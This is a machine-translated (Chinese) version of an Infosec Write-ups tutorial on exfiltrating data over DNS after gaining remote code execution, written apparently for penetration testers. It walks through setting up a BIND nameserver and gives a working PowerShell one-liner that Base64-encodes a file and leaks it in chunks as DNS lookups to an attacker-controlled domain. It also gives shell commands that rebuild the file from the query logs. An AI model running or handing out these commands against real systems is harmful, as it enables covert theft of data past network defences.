

# 通过远程代码执行在 DNS 上进行数据渗透

> 原文：<https://infosecwriteups.com/data-exfiltration-over-dns-with-remote-code-execution-22c2b228e373?source=collection_archive---------0----------------------->



一段时间以前，我遇到了一个问题，我需要通过 DNS 来过滤数据，因为所有其他选项都被阻止了。关于这一点的一个重要注意事项是，你应该彻底阅读测试描述，以验证这是否是允许的，因为在某些情况下，这可能会给你带来麻烦。这绝不是一个理想的解决方案，在未来我计划实现我自己的 DNS 监听器，但是因为我已经运行了一个绑定 DNS 服务器，这就是我在这个时间点上是如何做的。

另一种泄漏数据的方法也是使用 dnscat2 这样的工具，但是您需要修改有效负载和通信模式，因为它在云环境中很容易被检测到。

Burp Collaborator 对于小数据也有很大帮助，但是如果你需要提取较大的文件，可能会有点麻烦。

[](https://github.com/iagox86/dnscat2) [## iagox86/dnscat2

### 注意:的密码。zip 下载都是“密码”！*****欢迎来到 dnscat2，这是一个不会…

github.com](https://github.com/iagox86/dnscat2) 

## 入门指南

要开始，您需要一些先决条件:

1.  像 testdomain.com 一样属于你的领域。你可以从像 GoDaddy 这样的网站上得到这个。
2.  一个带有公共 IP 地址的 Linux VPS(虚拟专用服务器)(你可以每月花大约 5 美元得到一个)来运行你的带有 BIND 的 DNS 名称服务器
3.  远程代码执行漏洞

## 设置

1.  将您的 DNS 名称服务器位置指向 GoDaddy 上的 VPS IP 地址
2.  安装并配置 BIND 以解析您的域

[](https://www.digitalocean.com/community/tutorials/how-to-configure-bind-as-a-private-network-dns-server-on-ubuntu-18-04) [## 如何在 Ubuntu 18.04 | DigitalOcean 上将 BIND 配置为私有网络 DNS 服务器

### 管理服务器配置和基础架构的一个重要部分包括维护一种简单的查找方式…

www.digitalocean.com](https://www.digitalocean.com/community/tutorials/how-to-configure-bind-as-a-private-network-dns-server-on-ubuntu-18-04) 

3.可选您可以将 DNS 查询日志保存到一个单独的文件中，以便于使用示例:/var/log/bind/queries.log

[](https://ixnfo.com/en/configuring-bind9-logs.html) [## 配置 Bind9 日志

### 默认情况下，Bind9 日志被写入系统日志/ var / log / syslog，为了将它们分开，我将执行…

ixnfo.com](https://ixnfo.com/en/configuring-bind9-logs.html) 

## 漏出

为了过滤数据，您需要将值分成 48 个块，然后 Base64 编码，并将每个值作为查询发送到您的域。

*   AAAA…A.yourdomain.com
*   BBBB…B.yourdomain.com

```
powershell -ex bypass -noprofile -c "[Convert]::ToBase64String([IO.File]::ReadAllBytes('.\index.html')) -split '(\w{48})' | foreach{$value = $_ + '.yourdomain.com'; ping -n 1 $value}"
```

## 读取数据

在接收端，你需要理解数据

使用这个命令，您可以从绑定查询中提取数据，并将其输入到文件中

```
cat /var/log/bind/queries.log | grep .yourdomain.com | cut -d " " -f5 | sed 's/(//' | sed 's/)//' | sed 's/://' | sed 's/\.yourdomain\.com//' > file
```

在读取 base64 块之后，您实际上需要将它们转换回正常的可读格式，并将它们组合成最终的文件

```
while IFS= read -r line; do echo "$line" | base64 --decode; done < file >> final_result
```

## 问题

像这样读取数据有时会非常棘手，因为一些数据块可能会丢失或混淆，所以要保持警惕。解决这个问题的一个方法是在每个块上实现一个索引。

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)